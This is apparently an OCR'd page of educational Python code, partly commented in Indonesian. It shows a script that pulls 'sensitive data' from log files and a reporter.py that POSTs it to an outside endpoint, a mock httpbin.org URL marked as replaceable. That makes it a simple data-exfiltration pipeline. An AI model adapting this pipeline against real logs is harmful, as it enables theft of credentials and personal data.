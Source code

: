 ```python
def send_to_reporter(data_dict):
    # Convert ke JSON string
    json_data = json.dumps(data_dict)

    # Panggil reporter.py dengan input JSON 
    subprocess.run(["python3", "reporter.py", json_data])


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 extractor.py <logfile>")
        sys.exit(1)

    log_path = sys.argv[1]
    print(f"[*] Analyzing {log_path}...")

    sensitive_data = extract_sensitive_data(log_path)
    print(f"[+] Found sensitive items: {sensitive_data}")

    send_to_reporter(sensitive_data)
```

- File `reporter.py`
```python
# reporter.py
# For educational purposes only

import sys
import json
import requests

MOCK_ENDPOINT = "https://httpbin.org/post"  # bisa diganti ke endpoint lain

def send_report(data):
    try:
        response = requests.post(MOCK_ENDPOINT, json=data)
        print(f"[+] Sent report. Server responded with {response.status_code}")
        print(response.json())
    except Exception as e:
        print(f"[!] Failed to send report: {e}")


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 reporter.py '<json_data>'")
        sys.exit(1)

    try:
        sensitive_dict = json.loads(sys.argv[1])
        send_report(sensitive_dict)
    except json.JSONDecodeError:
        print("[!] Invalid JSON input.")
```
